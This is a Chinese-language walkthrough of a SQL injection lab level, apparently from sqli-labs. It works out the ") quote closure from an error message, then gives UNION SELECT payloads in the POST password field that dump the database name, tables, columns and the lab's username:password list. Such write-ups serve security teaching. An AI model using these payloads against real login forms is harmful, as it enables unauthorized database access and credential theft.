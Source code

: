 # 确认闭合状态
跟上题一样，使用post方式输入：passwd=Dumb&submit=Submit&uname=Dumb  
正常回显，接下来测试闭合状态

单引号没回显，测试双引号，出现报错信息：  
near '"Dumb"") LIMIT 0,1' at line 1

可以发现是通过双引号和括号的形式闭合的

输入：passwd=Dumb")--+&submit=Submit&uname=Dumb
正常回显


剩下payload与11关一致
 # 查询数据库名
passwd=1") union select database(),2--+&submit=Submit&uname=Dumb

# 查询表名
passwd=1") union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+&submit=Submit&uname=Dumb

# 查询列名
passwd=1") union select group_concat(column_name),2 from information_schema.columns where table_name='users' and table_schema=database()--+&submit=Submit&uname=Dumb

# 查询值
passwd=1") union select group_concat(username,':',password),2 from users--+&submit=Submit&uname=Dumb

回显：  
Your Login name:Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4  
Your Password:2